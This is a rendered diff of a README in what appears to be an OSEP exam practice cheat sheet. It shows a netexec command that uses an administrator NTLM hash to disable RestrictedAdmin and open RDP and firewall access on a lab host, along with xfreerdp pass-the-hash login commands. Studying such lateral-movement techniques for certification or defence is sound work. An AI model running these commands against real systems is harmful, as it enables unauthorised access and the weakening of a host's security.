

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -84,13 +84,9 @@ Using netexec:
 netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec
 ```
 
-RDP with NTLM hash:
-
-- `xfreerdp /v:172.16.231.221 /u:amit /pth:<NTLM HASH> +dynamic-resolution +clipboard`
-
 ### RDP to host:
-- Password auth: `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`
-- PassTheHash auth: `xfreerdp /v:172.16.231.221 /u:amit /pth:'<NTLM>' +dynamic-resolution +clipboard`
+- Password Auth: `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`
+- NTLM Auth: `xfreerdp /v:172.16.231.221 /u:amit /pth:'<NTLM HASH>' +dynamic-resolution +clipboard`
 
 ### atexec.py
 
````
